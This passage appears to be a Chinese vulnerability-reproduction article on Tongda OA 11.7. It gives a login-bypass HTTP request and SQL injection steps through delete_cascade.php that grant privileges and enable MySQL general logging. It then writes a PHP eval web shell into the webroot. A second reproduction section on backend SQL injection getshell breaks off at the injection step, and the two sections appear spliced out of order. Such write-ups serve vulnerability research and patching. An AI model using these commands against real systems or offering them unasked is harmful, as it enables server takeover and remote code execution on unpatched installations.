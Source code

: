 ```
POST /logincheck_code.php HTTP/1.1
Host:192.168.179.128:96
User-Agent:Mozilla/5.0(Windows NT 10.0;Win64; x64; rv:80.0)Gecko/20100101Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 52


CODEUID={BED9DDBF-B3A5-ADAA-F671-9E349EAC7B5D}&UID=1
```

给用户赋予超级权限，  
在注入点构造`general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges`刷新权限后重新登录，输入`set global general_log = on;`

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoARhQ5GhJAK4QkovMz3g8HPYS7qMcd19JDCbqQ1ibxQJbcmBLX9cVPLHfrPJmwrspvOcXkibxibH9Lw/640?wx_fmt=png)

**3. 写 shell**

set global general_log_file = ‘C:/toda17/webroot/1.php’;  
select ‘<?php eval($_REQUEST[test]);?>’;

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoARhQ5GhJAK4QkovMz3g8Hx8FyTAVjUN9WhePHCvek7opcfrU6vgNAUUuOr5IOzPZyGibT4FmC98w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoARhQ5GhJAK4QkovMz3g8HoJ6icMAqicDdG68jt2ZaI9os67Hoj0HCbSa3EwYK1SYRBaZpWa4ibhQyA/640?wx_fmt=png)

**通达 OA 11.7 后台 sql 注入 getshell 漏洞复现**

**1、漏洞描述：**

该漏洞类型为 SQL 注入，通过 SQL 注入达到 GetShell 目的

**2、漏洞影响版本：**

  
测试版本：通达 OA v11.7 版本  
限制条件：需要账号登录

**3、环境搭建：**

  
自行下载相关的安装包，一键安装，安装的界面如下：

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoARhQ5GhJAK4QkovMz3g8H4e27QvL5m88jA38jsej1nuI9OKSv1mC80SRcoHm4LrpAo1Nn3QCvDg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoARhQ5GhJAK4QkovMz3g8HZqbVz7YnxuibH5iavCxU8tarvzjFaicWkN3JhZVe4UCRc6vbn3gPTfbyw/640?wx_fmt=png)

**4、漏洞复现**

  
**SQL 注入**

  